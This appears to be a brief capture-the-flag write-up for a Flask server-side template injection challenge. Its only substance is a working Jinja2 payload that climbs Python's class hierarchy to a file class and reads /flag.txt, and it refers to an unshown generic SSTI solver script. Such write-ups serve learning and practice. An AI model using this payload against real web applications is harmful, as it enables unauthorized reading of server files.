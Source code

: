 # Portfolio

---

A simple flask SSTI.

```py
# The 99 is: _io._IOBase
{{'abc'.__class__.__base__.__subclasses__()[99].__subclasses__()[0].__subclasses__()[0]('/flag.txt').read()}}
```

I added my own `ssti-solver.py` which is a generic ssti-solver that I wrote a while back.